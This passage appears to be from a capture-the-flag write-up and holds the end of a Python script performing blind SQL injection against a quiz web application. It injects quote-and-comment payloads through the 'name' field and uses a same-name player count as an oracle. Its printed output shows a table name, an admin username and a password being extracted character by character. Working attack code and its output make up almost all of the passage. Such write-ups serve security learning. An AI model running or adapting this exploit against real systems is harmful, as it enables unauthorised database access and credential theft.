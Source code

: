 ```python
                break
        print(f"Result: '{accumulator}%'")

def run_exploit(exploit):
    payload = build_payload(exploit)
    name = requests.post(ENDPOINT, cookies=cookie, data = {'name': payload})
    start = requests.post(ENDPOINT + 'start', cookies=cookie, data = {'ques_1': 0, 'ques_2': 0, 'ques_3': 0})
    score = requests.get(ENDPOINT + 'score', cookies=cookie)
    
    success = int(re.search("There is ([0-9]+) other player\(s\) with the same name as you!", str(score.content)).groups()[0]) > 0
    return success

def build_payload(exploit):
    return "testerbtgsg54g45' " + exploit + "-- "

r = requests.get(ENDPOINT)
cookie = { 'session': r.cookies['session'] }

sys.argv[1] == 'TABLE_NAME' and process(table_name_exploit) # admin
sys.argv[1] == 'USERNAME' and process(username_exploit)
sys.argv[1] == 'PASSWORD' and process(password_exploit, charset=ALL_CHARS)

```

Running the thing:
```sh
$ ./script.py TABLE_NAME
Result: 'a%'
Result: 'ad%'
Result: 'adm%'
Result: 'admi%'
Result: 'admin%'
```

I put this table name into the username and password exploit strings. From here I could pull the login:
```
$ ./script.py USERNAME  
Result: 'a%'
Result: 'ad%'
Result: 'adm%'
Result: 'admi%'
Result: 'admin%'

./script.py PASSWORD
Result: 'S3creT_%'
Result: 'S3creT_p%'
Result: 'S3creT_p4%'
Result: 'S3creT_p4s%'
Result: 'S3creT_p4ss%'
Result: 'S3creT_p4ssw%'
Result: 'S3creT_p4ssw0%'
Result: 'S3creT_p4ssw0r%'
Result: 'S3creT_p4ssw0rd%'
Result: 'S3creT_p4ssw0rd-%'
Result: 'S3creT_p4ssw0rd-$%'
```
